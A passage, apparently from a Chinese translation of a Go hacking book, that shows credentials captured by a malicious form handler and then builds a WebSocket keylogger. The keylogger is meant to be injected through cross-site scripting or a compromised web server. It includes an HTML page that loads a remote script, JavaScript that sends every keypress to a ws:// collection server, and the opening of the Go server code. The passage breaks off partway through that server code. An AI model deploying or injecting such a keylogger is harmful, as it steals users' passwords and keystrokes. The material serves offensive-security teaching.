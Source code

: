  看看这些日志！可以看到用户名为bob，密码为p@ssw0rd1!。恶意的服务成功地处理了POST表单，捕获到输入的凭证，并保存到能离线查看的文件中。作为攻击者，您可以尝试针对目标组织使用这些凭证，并继续进行进一步的攻击。

 在下一节中，将学习这种凭证收集技术的变体。不是等待表单提交，而是创建键盘记录器来实时捕获按键。

 ## 使用WebSocket API记录按键

 `WebSocket API (WebSockets)`是一种全双工协议，近年来越来越流行，现在很多浏览器都支持了。为web应用服务器和客户端提供了一种有效地相互通信的方式。最重要的是，服务器不需要轮询就能向客户端发送消息。

`WebSockets`非常适合用于像聊天和游戏这种”实时“的应用，但同样也可以用来做恶，像在程序里注入按键记录器来捕获用户的按键。首先，假设已经确定了一个易受到跨站点脚本攻击(第三方可以在受害者的浏览器中运行任意JavaScript的缺陷)的应用程序，或者已经损坏了一个web服务器，可以修改程序的源代码。这两种情况都应该允许包含一个远程JavaScript文件。构建服务器的基础结构来处理和客户端的WebSocket连接并处理传入的按键。

为了演示，我们使用JS Bin (*http://jsbin.com*)来测试负载。JS Bin是一个在线平台，开发者可以在这里测试他们的HTML和JavaScript代码。在浏览器中访问JS Bin，并在左边栏粘贴下面的HTML，完全替换掉默认代码:

```html
<!DOCTYPE html>
<html>
<head>
  <title>Loggin</title>
</head>
<body>
<script src='http://localhost:8080/k.js'></script>
<form action='/login' method='post'> <input name='username'/>
<input name='password'/>
<input type="submit"/>
  </form>
</body>
</html>
```

在右边栏会显示已渲染的表单。可能会注意到，已经含有了一个src属性设置为`http://localhost:8080/k.js`的script标签。这是创建WebSocket连接并将用户输入发送给服务器的JavaScript代码。

服务器现在需要做两件事：处理WebSocket和提供JavaScript文件。首先，去掉JavaScript，毕竟这是关于Go的书，而不是JavaScript。（查看https://github.com/gopherjs/gopherjs/关于使用 Go 编写 JavaScript 的说明。）JavaScript的代码如下：

```javascript
(function() {
var conn = new WebSocket("ws://{{.}}/ws"); document.onkeypress = keypress;
function keypress(evt) {
s = String.fromCharCode(evt.which);
conn.send(s); }
})();
```

JavaScript代码处理按键事件。每当键被按下，代码就通过WebSocket将按键发送到资源ws://{{.}}/ws。回想一下这个 `{{.}}` 的值是一个表示当前上下文的Go模板占位符。该资源表示一个WebSocket URL ，根据传递给模板的字符串填充服务器位置信息。我们马上就会讲到。对于这个例子，先将JavaScript保存到名为 `logger.js` 的文件中。

但先等下，你看我们说过我们是用 `k.js` 服务! 前面的HTML也明确地使用 `k.js`。怎么了? 原来 `logger.js` 是Go的一个模板，不是真的JavaScript文件。使用 `k.js` 作为模式来匹配路由。当匹配成功，服务器就会渲染保存在logger.js中的模板，并提供WebSocket连接到的主机的上下文数据。通过查看服务器代码就能知道这是如何工作的，如代码4-9所示。

```go
package main

import (
	"flag"
	"fmt"
	"html/template"
	"log"
	"net/http"

	"github.com/gorilla/mux"
	"github.com/gorilla/websocket"
)

var (
```